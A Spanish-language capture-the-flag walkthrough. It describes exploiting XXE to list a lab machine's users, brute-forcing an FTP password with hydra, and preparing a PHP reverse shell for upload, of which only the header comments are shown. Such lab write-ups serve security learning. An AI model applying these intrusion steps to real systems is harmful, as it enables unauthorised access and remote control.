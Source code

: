 Con el archivo finalizado, procederemos a subirlo utilizando cURL de la siguiente manera. Como se puede observar, la XXE ha funcionado correctamente y nos muestra todos los usuarios presentes en la máquina víctima, entre ellos uno relacionado con FTP.

![[Pasted image 20240402223122.png]]

Ya que en el comentario de la pagina mencionaba que el servicio ftp tenia una contraseña muy facil y como al parecer ya tenemos el usuario del servicio se me occurio hacer una ataque de fuerza bruta con hydra y al esperar un buen rato encontro la contraseña correspondiente 


![[Pasted image 20240402223720.png]]


  
Ahora, al acceder al servicio, podemos observar que el directorio actual corresponde al directorio de la página web en la que nos encontrábamos, ya que podemos ver el archivo main.php, entre otros.


![[Pasted image 20240402224503.png]]


Sabiendo esto, se me ocurrió crear un archivo para establecer una shell inversa, en el cual solo indicamos la dirección IP y el puerto de la máquina atacante donde estaremos escuchando. El archivo es el siguiente:


```python
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
```